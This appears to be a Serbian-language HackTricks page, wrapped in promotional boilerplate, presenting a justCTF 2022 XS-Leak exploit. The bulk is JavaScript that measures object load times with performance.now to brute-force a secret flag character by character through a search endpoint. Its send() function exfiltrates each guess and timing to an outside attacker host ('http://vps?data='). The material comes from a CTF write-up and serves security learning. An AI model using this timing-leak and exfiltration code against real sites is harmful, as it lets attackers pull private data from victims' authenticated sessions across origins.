 # performance.now + Force heavy task

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za kibernetičku bezbednost**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Eksploatacija preuzeta sa** [**https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/**](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)

U ovom izazovu korisnik je mogao poslati hiljade karaktera, a ako je zastava sadržana, karakteri bi bili poslati nazad botu. Stoga, unošenjem velike količine karaktera, napadač bi mogao da utvrdi da li je zastava sadržana u poslatom stringu ili ne.

{% hint style="warning" %}
Inicialno nisam postavio širinu i visinu objekta, ali kasnije sam shvatio da je to važno jer podrazumevana veličina je premala da bi napravila razliku u vremenu učitavanja.
{% endhint %}

\`\`\`html ![](https://deelay.me/30000/https://example.com) fetch('https://deelay.me/30000/https://example.com') function send(data) { fetch('http://vps?data='+encodeURIComponent(data)).catch(err => 1) }

function leak(char, callback) { return new Promise(resolve => { let ss = 'just\_random\_string' let url = `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=`+ss\[Math.floor(Math.random()\*ss.length)].repeat(1000000) let start = performance.now() let object = document.createElement('object'); object.width = '2000px' object.height = '2000px' object.data = url; object.onload = () => { object.remove() let end = performance.now() resolve(end - start) } object.onerror = () => console.log('Error event triggered'); document.body.appendChild(object); })

}

send('start')

let charset = 'abcdefghijklmnopqrstuvwxyz\_}'.split('') let flag = 'justCTF{'

async function main() { let found = 0 let notFound = 0 for(let i=0;i<3;i++) { await leak('..') } for(let i=0; i<3; i++) { found += await leak('justCTF') } for(let i=0; i<3; i++) { notFound += await leak('NOT\_FOUND123') }

found /= 3 notFound /= 3

send('found flag:'+found) send('not found flag:'+notFound)

let threshold = found - ((found - notFound)/2) send('threshold:'+threshold)

if (notFound > found) { return }

// exploit while(true) { if (flag\[flag.length - 1] === '}') { break } for(let char of charset) { let trying = flag + char let time = 0 for(let i=0; i<3; i++) { time += await leak(trying) } time/=3 send('char:'+trying+',time:'+time) if (time >= threshold) { flag += char send(flag) break } } } }

main()

\`\`\`

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite vašu **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

